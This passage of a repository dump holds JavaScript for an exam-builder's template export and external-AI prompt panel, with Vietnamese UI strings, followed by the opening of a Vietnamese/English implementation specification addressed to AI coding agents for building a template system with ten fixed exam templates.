    if (typeof assetId !== 'string' || !/^(?:image|document)-[0-9a-f]{64}$/.test(assetId)) return;
    refs.set(assetId, {
      ...metadata, asset_id: assetId, sha256: assetId.slice(assetId.indexOf('-') + 1), role,
      ...(pageNumber == null ? {} : { page_number: Number(pageNumber) }), transfer: 'reference_only',
      fallback: 'keep_exam_content_and_use_basic_layout_when_asset_is_missing'
    });
  };
  const background = template.appearance?.background || {};
  const storedAsset = assetId => (background.asset_manifest || []).find(asset => asset.asset_id === assetId) || {};
  const source = storedAsset(background.source_asset_id);
  add(background.source_asset_id, 'source_document', null, source || {});
  add(background.asset_id, 'page_background', null, storedAsset(background.asset_id));
  (background.pages || []).forEach(page => add(page.asset_id, 'page_background', page.page_number, { ...page, mime: page.mime || 'image/png' }));
  for (const section of template.sections || []) for (const slot of section.slots || []) {
    for (const ref of slot.assets || []) add(typeof ref === 'string' ? ref : ref?.asset_id, 'question_illustration', null, typeof ref === 'object' ? ref : {});
  }
  return [...refs.values()].sort((a, b) => a.asset_id.localeCompare(b.asset_id));
}
function exportInput(mode) {
  const t = ui.template;
  return { template: t, mode, paper: {
    size: t.appearance.paper, orientation: t.appearance.orientation,
    margins: { ...t.appearance.margins_mm }
  }, columns: t.appearance.columns,
  maxPages: t.pagination.mode === 'max_pages' ? t.pagination.max_pages : null,
  metadata: { exam_title: t.defaults.exam_title || t.display_name, subject: t.defaults.subject, grade: t.defaults.grade,
    duration_minutes: t.defaults.duration_minutes, school: t.defaults.school_header } };
}
function renderExportPanel(root) {
  const panel = node('section', null, 'template-prompts');
  panel.append(node('h4', 'Xuất Word theo mẫu'));
  const mode = select('Bản in', 'student', [['student','Học sinh'],['teacher','Giáo viên'],['answer_key','Đáp án riêng'],['combined','Đề và đáp án cuối file']], () => {});
  const warnings = node('pre', '', 'template-report');
  const analyze = async () => {
    const data = await api('/api/template-export/analyze', { method: 'POST', body: JSON.stringify(exportInput(mode.querySelector('select').value)) });
    warnings.textContent = `Ước lượng ${data.estimatedPages} trang.\n${data.warnings.map(w => w.message).join('\n')}`;
    return data;
  };
  panel.append(mode, button('Kiểm tra phân trang', async () => {
    try { await analyze(); status('Đã kiểm tra ước lượng phân trang.'); }
    catch (err) { status(err.message, true); }
  }), button('In / Lưu PDF', async () => {
    if (missingContent().length) { status('Cần điền đủ đề bài và lựa chọn trước khi in.', true); return; }
    try {
      const check = await analyze();
      if (check.warnings.some(w => w.code === 'MAX_PAGES_ESTIMATE') &&
          !confirm(`Ước lượng ${check.estimatedPages} trang, vượt giới hạn. Vẫn in?`)) return;
    } catch (err) { status(err.message, true); return; }
    ui.previewMode = mode.querySelector('select').value;
    renderEditor();
    const paper = ui.template.appearance;
    let pageStyle = document.getElementById('templatePageStyle');
    if (!pageStyle) { pageStyle = node('style'); pageStyle.id = 'templatePageStyle'; document.head.append(pageStyle); }
    const margins = paper.margins_mm;
    pageStyle.textContent = `@page { size: ${paper.paper} ${paper.orientation}; margin: ${margins.top}mm ${margins.right}mm ${margins.bottom}mm ${margins.left}mm; }`;
    window.print();
  }), button('Tải DOCX', async () => {
    if (missingContent().length) { status('Cần điền đủ đề bài và lựa chọn trước khi xuất.', true); return; }
    try {
      const check = await analyze();
      if (check.warnings.length && !confirm(`Có ${check.warnings.length} cảnh báo. Vẫn xuất DOCX?`)) return;
      const response = await fetch('/api/template-export/docx', { method: 'POST', headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(exportInput(mode.querySelector('select').value)) });
      if (!response.ok) throw new Error((await response.json()).error || 'Xuất DOCX thất bại');
      const url = URL.createObjectURL(await response.blob());
      const anchor = node('a'); anchor.href = url; anchor.download = `${ui.template.template_id}.docx`;
      document.body.append(anchor); anchor.click(); anchor.remove(); setTimeout(() => URL.revokeObjectURL(url), 1000);
      status('Đã tạo DOCX. Kiểm tra lại bố cục trong Word trước khi phát đề.');
    } catch (err) { status(err.message, true); }
  }), warnings);
  root.append(panel);
}
function renderPromptPanel(root) {
  const panel = node('section', null, 'template-prompts');
  panel.append(node('h4', 'Prompt cho AI ngoài'));
  const group = select('Nhóm prompt', ui.promptGroup || 'FULL_EXAM', Object.entries(groups), value => { ui.promptGroup = value; ui.draft = null; refreshPrompt(); });
  const variant = select('AI', ui.aiVariant || 'ChatGPT', variants.map(v => [v, v]), value => { ui.aiVariant = value; ui.draft = null; refreshPrompt(); });
  const action = select('Hành động P3', ui.repairIntent || 'rewrite-one', [['rewrite-one','Sửa câu chọn'],['regenerate','Sinh lại câu chọn'],['increase-difficulty','Tăng độ khó một mức'],['decrease-difficulty','Giảm độ khó một mức'],['improve-solution','Cải thiện lời giải (giữ đáp án)'],['restyle-keep-answer','Đổi cách diễn đạt (giữ đáp án)'],['validate-only','Chỉ kiểm tra (báo cáo JSON)']], value => { ui.repairIntent = value; ui.draft = null; refreshPrompt(); });
  const instructions = field('Yêu cầu thêm của giáo viên', ui.template.prompt_settings?.extra_instructions || '', value => {
    ui.template.prompt_settings ||= {}; ui.template.prompt_settings.extra_instructions = value;
    ui.dirty = !ui.template.is_builtin; refreshPrompt();
  }, 'textarea');
  const preview = node('textarea'); preview.readOnly = true; preview.rows = 10; preview.setAttribute('aria-label', 'Nội dung prompt');
  async function refreshPrompt() {
    try {
      const data = await api('/api/template-prompts/build', { method: 'POST', body: JSON.stringify({ template: ui.template,
        promptGroup: group.querySelector('select').value, aiVariant: variant.querySelector('select').value,
        selectedSlotIds: ui.promptSelection?.size ? [...ui.promptSelection] : ui.selected ? [ui.selected] : [],
        teacherExtraInstructions: instructions.querySelector('textarea').value, repairIntent: action.querySelector('select').value,
        currentContent: Object.fromEntries(allSlots().filter(({ slot }) => slot.content).map(({ slot }) => [slot.slot_id, slot.content])) }) });
      preview.value = data.prompt || '';
    } catch (err) { preview.value = ''; status(err.message, true); }
  }
  panel.append(group, variant, action, instructions,
    button('Tạo prompt', async () => { await refreshPrompt(); status('Prompt đã cập nhật từ cấu trúc hiện tại.'); }), button('Copy Prompt', async () => {
      try { await navigator.clipboard.writeText(preview.value); status('Đã copy prompt.'); }
      catch (err) { status(`Không copy được: ${err.message}`, true); }
    }), preview);
  const pasted = node('textarea'); pasted.rows = 8; pasted.placeholder = 'Dán văn bản AI trả về';
  panel.append(node('h4', 'Dán kết quả AI'), pasted, button('Kiểm tra và xem thay đổi', async () => {
    try {
      if (group.querySelector('select').value === 'REVIEW_REPAIR' && action.querySelector('select').value === 'validate-only') {
        const selectedSlotIds = ui.promptSelection?.size ? [...ui.promptSelection] : [ui.selected];
        const review = await api('/api/template-prompts/review-report', { method: 'POST', body: JSON.stringify({ rawText: pasted.value, selectedSlotIds }) });
        ui.draft = null; report.textContent = JSON.stringify(review.report, null, 2);
        status('Đã đọc báo cáo kiểm tra. Không có nội dung câu nào được thay đổi.'); return;
      }
      const data = await api('/api/template-prompts/prepare', { method: 'POST', body: JSON.stringify({ template: ui.template,
        rawText: pasted.value, selectedSlotIds: group.querySelector('select').value === 'FULL_EXAM' ? [] : ui.promptSelection?.size ? [...ui.promptSelection] : [ui.selected],
        promptGroup: group.querySelector('select').value, repairIntent: action.querySelector('select').value,
        currentContent: Object.fromEntries(allSlots().filter(({ slot }) => slot.content).map(({ slot }) => [slot.slot_id, slot.content])) }) });
      ui.draft = data.draft || null;
      report.textContent = ui.draft.issues.map(x => `${x.severity}: ${x.human_readable_message}`).join('\n') || 'Không có lỗi cấu trúc.';
      for (const assignment of ui.draft.assignments) report.textContent += `\n\n${assignment.slot_id}\nTrước: ${JSON.stringify(assignment.before)}\nSau: ${JSON.stringify(assignment.after)}`;
      status('Đã kiểm tra. Chỉ áp dụng khi bản nháp hợp lệ và được xác nhận.');
    } catch (err) { status(err.message, true); }
  }), button('Áp dụng bản nháp', () => {
    if (!ui.draft?.valid) { status('Bản nháp chưa hợp lệ, chưa thể áp dụng.', true); return; }
    if (!confirm(`Áp dụng ${ui.draft.assignments.length} câu đã xem?`)) return;
    ui.undo = ui.draft.assignments.map(a => ({ slot_id: a.slot_id, before: structuredClone(allSlots().find(x => x.slot.slot_id === a.slot_id)?.slot.content ?? null) }));
    ui.draft.assignments.forEach(a => { const slot = allSlots().find(x => x.slot.slot_id === a.slot_id)?.slot; if (slot) slot.content = structuredClone(a.after); });
    ui.draft = null; ui.dirty = !ui.template.is_builtin; renderEditor(); status('Đã áp dụng. Có thể hoàn tác trước khi đóng.');
  }), button('Hoàn tác lần áp dụng', () => {
    if (!ui.undo) return;
    ui.undo.forEach(a => { const slot = allSlots().find(x => x.slot.slot_id === a.slot_id)?.slot; if (slot) slot.content = a.before; });
    ui.undo = null; renderEditor(); status('Đã hoàn tác.');
  }), button('Hủy bản nháp', () => {
    ui.draft = null; report.textContent = ''; status('Đã hủy bản nháp. Nội dung hiện có giữ nguyên.');
  }));
  const report = node('pre', '', 'template-report'); panel.append(report);
  root.append(panel);
  ui.refreshPrompt = refreshPrompt;
  refreshPrompt();
  renderExportPanel(root);
}
launchButton?.addEventListener('click', () => { renderShell(); dialog.showModal(); loadGallery(); });

```

### FILE: prompt_update.txt

```text
EXAMBUILDER 2.0 — TEMPLATE SYSTEM
MASTER SPECIFICATION + MASTER IMPLEMENTATION PROMPT — FINAL USER-CONFIRMED EDITION
For Claude Code / OpenAI Codex · 11/10/2026 · Language: Vietnamese requirements + English executor instructions

STATUS: ALL 42 REQUIREMENT QUESTIONS CLOSED. NO FURTHER PRODUCT INTERVIEW REQUIRED.
This is a single handoff artifact for the EXISTING exam-builder repository.

READ THIS FIRST:
1) PART I and PART II contain the actual owner's decisions, not suggestions.
2) PART III is the full engineering execution order and architecture reference.
3) PART IV gives dynamic external-AI prompt examples, NOT static prompts to hardcode.
4) PART V contains final acceptance criteria. PART VI records future-only OCR expansion.
5) Inspect current git state and real code before altering anything. The source documents
   are PROJECT_CONTEXT.md, README.md, PROJECT_BLUEPRINT.md; the blueprint is a snapshot,
   and the repository may have newer or uncommitted changes.
6) External AI is used to write PLAIN TEXT content for exam slots only. NO AI image
   generation. Backgrounds/Word/PDF are handled by uploads and import tools.
7) The existing LLM API has a USER-REPORTED UNSPECIFIED FAILURE: diagnose and repair
   independently. Do NOT make the new template workflow depend on cloud API working.
8) Do NOT implement OCR now, install OCR packages, download OCR models or call OCR APIs.
   Record a future expansion plan only.
9) Exactly TEN named stock templates; built-in structures/question counts are LOCKED.
   Create a CUSTOM CLONE if a user wants to add/delete slots or change structure.
10) UI must be stable and simple. Canva is only an OPTIONAL EXTERNAL DESIGN TOOL:
    users may upload PNG/PDF created there; do not integrate Canva API or build a
    free-coordinate Canva clone.
11) This document authorizes incremental coding in the repo by the executor,
    not arbitrary commits, pushes, destructive reset or replacement of user work.

=======================================================================
PHẦN I. NHỮNG QUYẾT ĐỊNH CHỦ DỰ ÁN ĐÃ CHỐT — KHÔNG ĐƯỢC ĐỔI
=======================================================================

1. BẢN CHẤT SẢN PHẨM
   - Mở rộng ExamBuilder hiện có, KHÔNG xây lại app mới.
   - Template = cấu trúc đề THẬT + hình thức trình bày. Có sẵn khung,
     slot để dán văn bản, số dòng / vùng làm bài, phần thi và điểm số.
   - 10 template mặc định được lập trình sẵn, với số câu/cấu trúc cố định
     và bất biến trong BẢN GỐC. Người dùng muốn sửa cấu trúc thì tạo
     BẢN SAO TÙY CHỈNH (clone) rồi sửa/thêm/xóa/reorder, lưu/xuất/nhập.
     Không thay đổi số câu/mục bắt buộc của seed gốc khi sử dụng seed gốc.
   - Người dùng có thể upload nền ảnh, Word/PDF làm tài nguyên/template;
     có thư viện nền để chọn. Phần mềm đảm trách hình thức và ghép nội dung.

2. DANH SÁCH CHÍNH XÁC 10 TEMPLATE MẶC ĐỊNH, KHÔNG THÊM/BỚT
   T01 — Đề kiểm tra 15 phút
   T02 — Đề kiểm tra 45 phút
   T03 — Đề giữa học kỳ
   T04 — Đề cuối học kỳ
   T05 — Đề 100% trắc nghiệm
   T06 — Đề 100% tự luận
   T07 — Đề kết hợp nhiều dạng câu
   T08 — Đề Toán có nhiều vùng trình bày lời giải
   T09 — Đề hai cột, tiết kiệm giấy
   T10 — Đề Ngoại ngữ có phần đọc hiểu
   Thứ tự T09 trước T10 là thứ tự chủ dự án xác nhận sau cùng.
   Các template là điểm khởi đầu, KHÔNG khóa môn/lớp nếu không có lý do.

3. EDITOR / BỐ CỤC
   - Chọn editor danh sách + bảng thuộc tính, kéo thả sắp xếp trên bản
     sao TÙY CHỈNH; bấm khối xem trước để chọn đúng thuộc tính. Dùng
     button lên/xuống làm phương án thay thế drag-and-drop.
   - Yêu cầu mới (Câu 20): ƯU TIÊN SỰ ỔN ĐỊNH. Nếu editor tự do gây rối,
     không triển khai Canva-like canvas. Canva có thể dùng BÊN NGOÀI để
     thiết kế khung/nền và xuất PNG/PDF rồi upload; KHÔNG Canva API.
   - Số dòng có thể cấu hình; hỗ trợ vùng trả lời: dòng kẻ, vùng trống,
     ô ly, khung bảng, vùng dành cho vẽ hình, tùy chọn co giãn/phân trang.
   - Điểm hiển thị theo câu / theo phần; template và prompt phải xử lý điểm.
   - PDF và DOCX, khổ giấy A4/A5, ngang/dọc, lề, header/footer và số trang.
   - Hai chế độ phân trang: tự động; giới hạn số trang với cảnh báo.

4. NỘI DUNG AI NGOÀI — QUYẾT ĐỊNH ĐẶC BIỆT QUAN TRỌNG
   - ChatGPT / Claude / Gemini / DeepSeek / Grok bên ngoài chỉ tạo TEXT.
   - TEXT phải khớp cấu trúc template: phần, loại câu, đủ nội dung câu,
     số câu, điểm số, đáp án, lời giải/đáp án chi tiết, mức độ khó.
   - AI KHÔNG sinh ảnh, hình nền, file Word/PDF hay một thiết kế thay thế.
   - Hình ảnh của đề hoặc background được người dùng upload/tải/import qua
     chức năng độc lập. Không gọi image generation từ prompt nội dung.
   - Có thể sinh cả đề, chỉ một phần, chỉ slot đang thiếu, sinh lại/sửa
     một câu mà không đụng câu khác.
   - Parser/validator/mapper kiểm tra nội dung AI rồi mới ghép khung.

5. HỆ THỐNG PROMPT BÊN DƯỚI MỖI TEMPLATE
   - Đúng 3 nhóm: (P1) tạo toàn bộ đề; (P2) tạo một phần / một số slot;
     (P3) kiểm tra / sửa / tái sinh nội dung chọn lọc.
   - Mỗi nhóm có chọn AI: ChatGPT, Claude, Gemini, DeepSeek, Grok;
     có nút Copy Prompt rõ ràng, xem trước nội dung prompt.
   - Prompt/biến thể không nằm lẻ tẻ ở nhiều vị trí khó bảo trì; có một
     nguồn quy tắc chung + kho cấu hình biến thể có cấu trúc, quản lý tập trung.
   - Prompt được TẠO ĐỘNG từ cấu hình template hiện hành: số câu, slot,
     phần, loại câu, điểm, mức độ, dòng, chủ đề, môn/lớp, yêu cầu khác.
   - Hệ thống cũ có Gemini và Gemini Pro riêng; không được phá luồng cũ.
     Với module mới, năm tên AI trên là bộ chọn bắt buộc. Có thể coi Gemini
     Pro là biến thể bên trong Gemini khi phù hợp.

6. IMPORT VÀ BẢO TOÀN NỘI DUNG
   - Upload Word/PDF: cố gắng tự nhận diện cấu trúc bằng phương pháp
     deterministic/non-LLM trước; người dùng được duyệt/sửa hoặc gắn vùng
     thủ công nếu không đáng tin cậy.
   - OCR KHÔNG ĐƯỢC TRIỂN KHAI TRONG PHẠM VI NÀY (Câu 34 chốt): không
     thư viện, binary, model, runtime OCR hoặc nhánh background OCR.
     Chỉ ghi rõ thiết kế mở rộng OCR trong roadmap. PDF scan vẫn có thể
     làm nền và được đánh dấu vùng điền bằng tay.
   - Nền Word/PDF hình thức phức tạp không nhất thiết tự biến thành tài liệu
     có thể chỉnh sửa hoàn toàn; có phương án dùng file/page như lớp nền,
     phủ các slot văn bản lên trên.

7. WEB / ANDROID
   - Web hoàn thiện trước. Android: mở, xem, xuất đề dùng template;
     cố giữ nền/font/bố cục tương đương Web; hỗ trợ offline khi có dữ liệu.
   - Tài nguyên quá lớn: được phép không đồng bộ, nhưng phải thông báo,
     giữ đề và cấu trúc nguyên vẹn, có fallback được xác định rõ.
   - Không được lén xóa/hỏng hoặc bỏ bất kỳ dữ liệu câu hỏi/lời giải nào.
   - API LLM tự động hiện bị lỗi theo báo cáo người dùng, chưa rõ nguyên
     nhân. Executor phải chẩn đoán theo bằng chứng và sửa có test nếu xác
     định được; luồng Copy Prompt/Dán text vẫn phải dùng được offline.

8. VAI TRÒ VÀ QUY TRÌNH
   - ChatGPT đóng vai Product Analyst, SE/Architecture, planner, QA và
     người soạn đặc tả; Claude Code/Codex là code executor.
   - Không tạo một ứng dụng độc lập, không đảo stack vô cớ, không tự ý thay
     các luồng cũ. Kế thừa tối đa hệ thống đã chạy.

=======================================================================
PHẦN II. BẢNG QUYẾT ĐỊNH CUỐI CÙNG — CÂU 1 ĐẾN 42
=======================================================================

ĐIỀU KIỆN HỢP ĐỒNG: Đây là lời chốt của chủ dự án. Không còn câu chưa
trả lời. Nếu lựa chọn gốc và lời giải thích mới khác nhau, ƯU TIÊN
LỜI GIẢI THÍCH CUỐI CÙNG. Mọi số câu mặc định đề xuất cho 10 seed do
executor thiết kế thực dụng và ghi trong manifest/test, KHÔNG gọi đó
là số lượng do người dùng cung cấp.

CÂU 1–16 — ĐÃ CHỐT Ở VÒNG KHẢO SÁT TRƯỚC
01 C — Template vừa là bố cục hình thức vừa là cấu trúc nội dung/slot.
02 C — Có đúng mười khuôn lập trình sẵn; người dùng có thể tự tạo mẫu
       tùy chỉnh; upload background từ UI.
03 C — Vùng làm bài: dòng kẻ, ô trống, ô ly, bảng, khung vẽ; có tùy chọn
       co giãn và quy tắc ngắt trang.
04 Có — Hiện điểm câu/phần; kiểm soát điểm; AI bên ngoài điền văn bản.
05 D — Thư viện nền + upload ảnh + nhập Word/PDF; phân biệt dùng nền với
       chuyển cấu trúc và không hứa biến mọi PDF thành Word chỉnh sửa.
06 C — Xuất Word/PDF; A4/A5, dọc/ngang, lề, header/footer, số trang;
       lựa chọn tự phân trang hoặc giới hạn số trang.
07 C — Sinh AI đầy đủ / chọn phần, chọn câu / tái sinh chọn lọc, validate.
08 C — Web có editor hoàn chỉnh; Android mở/xem/xuất với bố cục tương
       đương tối đa, chỉnh sửa cơ bản; không bắt Android có drag-drop.
09 Có — Kho template độc lập: lưu, nhân bản, sửa, xóa, import/export.
10 ĐÍNH CHÍNH QUAN TRỌNG — AI bên ngoài CHỈ TẠO TEXT ĐỀ KIỂM TRA,
       đúng template: phần, câu, điểm, đáp án, lời giải đầy đủ. KHÔNG
       sinh ảnh, nền, Word/PDF hay giao diện. Ảnh/file được upload riêng.
11 CHỐT CHÍNH XÁC 10 MẪU (theo thứ tự):
       T01 Đề kiểm tra 15 phút
       T02 Đề kiểm tra 45 phút
       T03 Đề giữa học kỳ
       T04 Đề cuối học kỳ
       T05 Đề 100% trắc nghiệm
       T06 Đề 100% tự luận
       T07 Đề kết hợp nhiều dạng câu
       T08 Đề Toán có nhiều vùng trình bày lời giải
       T09 Đề hai cột, tiết kiệm giấy
       T10 Đề Ngoại ngữ có phần đọc hiểu
12 B — Editor thêm/xóa/kéo thả qua danh sách, đơn giản và hiệu quả.
13 Cả BA nhóm prompt DƯỚI MỖI TEMPLATE, quản lý tập trung; nút
       Copy Prompt, chọn ChatGPT/Claude/Gemini/DeepSeek/Grok. Ba nhóm
       sau đính chính câu 10 là Full / Partial / Review-and-Regenerate.
14 C — Word/PDF: thử nhận diện cấu trúc không dùng LLM, cho xem trước,
       sửa/đánh dấu vùng thủ công; không hứa độ chính xác 100%.
15 C — AUTO pagination và MAX-PAGES với cảnh báo, không cắt nội dung.
16 B — Android cố giữ cả nền/font/layout và dùng offline khi có tài nguyên;
       file quá lớn được phép không chuyển nhưng phải cảnh báo/fallback.

CÂU 17–42 — CÂU TRẢ LỜI CHÍNH THỨC NGÀY 11/10/2026
17 C — Ánh xạ theo stable slot ID trước, gợi ý ghép thứ tự khi có căn cứ;
       map mơ hồ phải để user quyết; không tự ghi đè.
18 C — Nhập điểm thủ công HOẶC chia tự động; kiểm tổng điểm câu/phần/đề.
19 C — Bản học sinh; bản giáo viên; đáp án/hướng dẫn chấm riêng; hoặc
       đáp án/lời giải ở cuối cùng một file.
20 ƯU TIÊN THỰC DỤNG — User không ép editor trực tiếp kiểu Canva: lo
       phức tạp, lỗi nhiều. Dùng list+inspector và preview A4 có liên
       kết chọn khối; kéo thả cơ bản hoặc up/down. Canva chỉ là CÔNG CỤ
       BÊN NGOÀI để người dùng thiết kế nền, upload kết quả PNG/PDF.
       Không tích hợp Canva API, không xây đồ họa kéo tọa độ tự do.
21 B — Template dùng đa môn/lớp; các mẫu đặc biệt chỉ là điểm khởi đầu.
22 B — SỐ CÂU/CẤU TRÚC CỦA 10 BUILT-IN TEMPLATE GỐC LÀ CỐ ĐỊNH.
       Gốc read-only; khi muốn thay đổi phải CLONE thành mẫu tùy chỉnh.
       Các số lượng từng seed chưa được user cung cấp: executor chọn một
       cấu hình cố định cụ thể cho từng seed, mô tả công khai và test.
       Metadata đề, chủ đề và nội dung slot vẫn thay được khi dùng seed;
       không hiểu nhầm cố định câu là cấm điền văn bản.
23 B — Metadata đầy đủ, có trường/lớp/môn/chủ đề/năm/học kỳ/thời gian/
       giáo viên/tài liệu/ghi chú/AI extra instructions; phần lớn optional.
24 B — Thang điểm linh hoạt, mặc định 10, hỗ trợ mức 0,01 và tổng chính xác.
25 B — Tự luận có subparts a/b/c, điểm, đáp án và lời giải riêng.
26 B — Dòng trả lời có min/max, tự mở rộng nếu bật, xử lý phân trang an toàn.
27 B — Người dùng sửa thêm hướng dẫn, lưu preset prompt; giữ schema parser.
28 A — Copy Prompt → dùng AI ngoài → dán TEXT về là luồng CHÍNH.
       API LLM đang có nhưng THEO NGƯỜI DÙNG ĐANG LỖI, CHƯA RÕ LỖI Ở
       ĐÂU. Phải audit/debug/sửa luồng cũ nếu chứng minh nguyên nhân;
       KHÔNG đòi cloud key mới để template hoạt động.
29 B — Sinh lại nội dung: diff/bản cũ-bản mới, xác nhận, Undo.
30 B — Tràn MAX-PAGES: báo vị trí, gợi ý chỉnh; KHÔNG tự bóp chữ đến
       mức khó đọc hoặc cắt nội dung.
31 B — Nền trang đầu/giữa/cuối có thể khác, mặc định chung một ảnh.
32 A — PNG/JPG/WebP/SVG an toàn, DOCX/PDF; giới hạn tài nguyên/kiểu file,
       có kiểm tra file hợp lệ, thumbnail và xử lý lỗi file lớn.
33 C — Tách rõ hai cách import Word/PDF: dùng làm nền, hoặc chuyển thành
       các khối cấu trúc rồi duyệt/sửa/đánh dấu thủ công.
34 KHÔNG OCR TRONG PHIÊN BẢN NÀY. Chủ dự án lo nặng nên TỪ CHỐI OCR
       ở hiện tại. PDF scan: dùng làm background + đánh dấu vùng thủ
       công. CHỈ VIẾT ROADMAP/EXTENSION POINT ĐỂ BỔ SUNG SAU; tuyệt
       đối không cài đặt thư viện, chạy OCR hay tải model lúc này.
35 B — Ảnh minh họa do người dùng upload gắn vào từng câu; AI chỉ đưa
       chú thích/placeholder text nếu cần ảnh, không sinh ảnh.
36 B — Bảng đơn giản và ảnh sơ đồ trong câu, không editor tùy biến vô hạn.
37 A — PDF/DOCX tương đương cấu trúc, không yêu cầu pixel-perfect.
38 B — Preview GV/HS/đáp án riêng/nền in/nhiều mã đề/cảnh báo tràn.
39 A — Gist đồng bộ metadata/template/snapshot nhỏ; asset nhị phân lớn
       để riêng, dùng manifest/ref/checksum và báo thiếu trên thiết bị.
40 A — Android mở/xem/xuất, chỉnh sửa cơ bản, offline khi có asset.
41 B — Schema migration additive, đề cũ vẫn mở/sửa/xuất/sync như cũ.
42 B — Thực thi THEO MILESTONE và test trước khi chuyển bước.

ƯU TIÊN KHI CÓ XUNG ĐỘT:
  User-confirmed final decisions > legacy docs baseline > architecture
  recommendations here > executor implementation preference.
  Never silently reinterpret Q22B as fully editable built-in slot counts,
  Q34 as permission for OCR, or Q20 as a mandate for Canva integration.

=======================================================================
PHẦN III. MASTER PROMPT CHO CLAUDE CODE / CODEX
=======================================================================

ROLE & OPERATING CONTRACT
-------------------------
You are the lead staff software engineer, product-minded architect, senior
full-stack implementer, test engineer and migration owner for the existing
ExamBuilder project. Your job is to IMPLEMENT the new template system in the
actual repository, not to propose a disconnected new app. The current user
requires a working, production-quality, locally usable extension. Reason
through the code and ship tested changes in milestones.

The user has ALREADY COMPLETED all 42 product questions. Parts I–II ABOVE
are binding confirmed requirements. Do not ask another questionnaire. For
unprovided engineering parameters (e.g., the exact initial item count in
each immutable built-in template) choose documented, practical, tested
values, explicitly label them ENGINEERING CHOICES rather than user answers.
Execute sequentially; block only for an objectively unavoidable conflict,
missing critical runtime access or destructive action needing authorization.

IMPORTANT: AI outside ExamBuilder produces TEXT QUESTION CONTENT ONLY. Do
not build a feature that asks AI to generate decorative images, backgrounds,
DOCX, PDFs, layouts or a whole alternative UI. User uploads or chooses image
backgrounds and imports Word/PDF independently. The program renders and
exports the final paper by filling structured question slots with text.

Do not claim test success without running tests. Do not claim PDF/DOCX/Android
pixel parity unless verified. Never claim scan OCR is supported if it is not.
Don't guess current repository files from the dump; inspect working tree.
Never leak credentials from configuration, database, logs or Git history.

STAGE 0 — INSPECT BEFORE EDITING
-------------------------------
1. pwd, git status --short, git branch --show-current and git diff --stat.
   Identify pre-existing uncommitted work: do NOT discard, reset, override,
   stash or commit user work without explicit approval. Protect existing
   branch feature/chuan-hoa-cong-thuc-toan-latex and any newer changes.
2. Read PROJECT_CONTEXT.md, README.md, PROJECT_BLUEPRINT.md and actual:
   backend/server.js, backend/database.js, backend/examValidation.js,
   backend/parser/{TextPromptParser,FileUploadParser,mathFormat,
   mathToLatex,mathFraction,mathRadical,examCodeGenerator}.js,
   backend/llm/{promptBuilder,ProviderFactory}.js,
   backend/routes/{examRoutes,archiveRoutes,backgroundRoutes,generateRoutes,
   resourceRoutes,syncRoutes}.js, backend/sync/{library,gistClient}.js,
   frontend/{index.html,script.js,style.css,promptTemplate.js,
   promptVariants.js} if present,
   Gemini_Prompt_Unified.txt, AI_Prompts_Variants.txt if present,
   tools/*prompt*, tests/**, Android's model/Exam.kt, LibraryDto.kt,
   ExamViewModel, PdfExporter.kt, DocxExporter.kt, SyncManager,
   LibraryMerge.kt and navigation/screens. Inspect real paths, don't invent.
3. Determine which tasks in PROJECT_CONTEXT.md §14.2 are uncommitted and
   whether the prompt variants, upload reference PDF and live cloud models
   are in a partially implemented state. Integrate, not overwrite.
4. Record a before-state audit: existing functionality, API contracts, JSON
   shape, database tables, test counts, potential risk, supported export
   fidelity, data persistence and how the browser performs client-side parse.
5. Run baseline npm tests and appropriate Android unit/build checks where
   environment permits. Record failures that predate this feature.
6. Draw a dependency/impact table in a dedicated architecture document.
   First deliver architecture, schema, migration plan, test plan and
   milestones; then implement. Since user authorized execution, continue
   sequentially after documenting, without waiting for another interview.

BASELINE PROJECT CONTEXT — FROM UPLOADED DOCUMENTS (VERIFY IN REPO)
-----------------------------------------------------------------
- Backend: Node.js >=18 (Node 24 tested), Express 4, SQLite sqlite/sqlite3.
  CommonJS backend, EXCEPT backend/parser ESM (package.json type module),
  served statically to browser under /parser. Do not rewrite whole stack.
- Frontend: vanilla HTML/CSS/JS ES Modules, no framework, no bundler.
  frontend/script.js controls state, render, contenteditable edits,
  PDF window.print, DOCX via docx, archive autosave, shuffling, sharing.
  UI themes exist and must remain intact.
- Android: Kotlin/Jetpack Compose, offline, JLaTeXMath, PDF via PdfDocument,
  DOCX writer; existing JSON exam shape mirrored in Exam.kt.
- Existing question types: MCQ, TRUE_FALSE, FILL_BLANK, ESSAY; difficulty
  NB, TH, VD, VDC. Existing blocks: MULTIPLE_CHOICE, ESSAY. Existing
  per-question draft_lines_count. Do not narrow or break these enums.
- Existing exam shape:
  {title, subject, duration_minutes, school_header,
   blocks:[{block_type,block_title,questions:[
     {question_type,difficulty_level,content,options:[...],
      correct_answer,explanation,draft_lines_count}]}]}
- Existing external AI format: =PHAN_1_TRAC_NGHIEM=,
  =PHAN_2_TU_LUAN=, [CAU_HOI], Loai:, Muc_Do:, De_Bai:,
  A./B./C./D., Dap_An:, Loi_Giai:, So_Dong_Nhap:.
  Legacy grammar aliases TN/DUNG_SAI/DIEN_TU/TU_LUAN and
  Nhan_Biet/Thong_Hieu/Van_Dung/Van_Dung_Cao.
- The documented legacy text grammar includes fields:
  Loai|Muc_Do|De_Bai|Dap_An|Loi_Giai|So_Dong_Nhap. Whether actual parser
  accepts additional fields must be VERIFIED in the current repository.
  Do not assume Ma_Khung, Ma_Phan or Diem are supported. Implement a
  versioned template adapter/parser and mapper that preserves old grammar.
- User/AI text safe insertion uses textContent. KaTeX-produced markup is
  the exception, with trust:false, throwOnError:false.
- Maths pipeline formatMathSymbols → promoteStructuralMath:
  idempotent, leave existing $...$ / $$...$$ opaque, preserve parity
  with Kotlin MathPromote.kt using mathPromoteVectors.json.
- Existing prompt source-of-truth Gemini_Prompt_Unified.txt; generated
  frontend/promptTemplate.js from tools/gen-prompt-module.js. Prompt
  variants may come from AI_Prompts_Variants.txt via
  tools/gen-prompt-variants.js; run npm run gen:prompt. NEVER hand-edit
  generated modules. New prompt engine must REUSE this foundation rather
  than fork the legacy grammar or create five independent formats.
- Existing PDF background: GET /api/backgrounds lists PNG/JPG/JPEG/SVG
  from resources/backgrounds, URL /backgrounds/*. Current UI has
  background toggle + opacity, printing through window.print.
  This is NOT yet a general upload/import/library/asset management engine.
  Current background selection is session-scoped.
- Existing archive: SAVED_EXAM payload_json with soft delete tombstones,
  archive autosave ~1.5 seconds, SQLite. Shared exams use EXAM,
  QUESTION_BLOCK, QUESTION, QUESTION_OPTION, EXAM_SHARE.
- Existing sync: one secret GitHub Gist, exambuilder-library.json,
  Push/Pull merge primary wins, deletion tombstones, theme timestamp merge.
